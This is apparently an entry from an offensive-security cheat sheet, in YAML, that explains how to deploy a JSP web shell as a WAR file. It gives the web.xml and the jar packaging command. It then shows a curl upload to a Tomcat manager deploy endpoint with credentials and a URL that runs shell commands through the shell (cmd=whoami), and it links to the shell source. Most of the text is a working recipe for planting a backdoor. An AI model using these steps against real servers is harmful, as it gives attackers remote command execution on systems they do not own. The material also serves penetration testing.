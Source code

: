 ```yaml
---
functions:
  shell:
    - description: war web shell (in jsp format)
      code: |
        (1) File Structure:
        	├── shell.jsp
			└── WEB-INF
		    	└── web.xml
		web.xml:
		\<?xml version="1.0"?>
		\<!DOCTYPE web-app PUBLIC
		\"-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
		\"http://java.sun.com/dtd/web-app_2_3.dtd">
		\<web-app>
		\  <welcome-file-list>
		\    <welcome-file>shell.jsp</welcome-file>
		\  </welcome-file-list>
		\</web-app>

        (2) jar -cf shell.war *
        (3) curl --upload-file shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/{context}&update=true" -u {username}
        https://{address}/shell.jsp?cmd=whoami
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
---
```

